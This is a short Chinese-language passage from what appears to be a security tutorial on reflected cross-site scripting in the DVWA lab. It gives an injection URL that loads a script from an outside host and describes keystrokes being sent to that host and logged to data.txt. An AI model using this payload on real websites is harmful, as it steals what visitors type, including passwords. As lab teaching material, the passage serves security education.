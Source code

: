 ![](img/030fb102bf9f3d0af72fad5360e7b05d.png)

现在，我们需要使用来自服务器的有效负载来调用易受攻击的页面:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script src="http://192.168.149.128/xss.js">
```

一旦脚本加载到页面上，每按一次键就会触发一个新的请求。

![](img/c059e2b6d1f61e769a344b61cb149387.png)

参数 **key** 的值正在被写入 **data.txt** 文件，如下面的截图所示。
